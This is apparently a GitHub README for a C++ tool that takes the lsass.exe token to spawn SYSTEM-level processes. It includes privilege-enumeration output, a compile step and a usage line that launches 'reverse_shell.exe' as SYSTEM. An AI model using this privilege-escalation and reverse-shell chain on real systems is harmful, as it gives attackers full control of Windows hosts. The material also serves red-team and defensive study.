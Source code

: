 # Impersonator

![Image](https://github.com/plackyhacker/impersonator/blob/main/Impersonator.gif)

Simple `C++` code to impersonate the `lsass.exe` primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` and `SeDebug` privileges are required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeDebugPrivilege                          Debug programs                                                     Disabled
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```
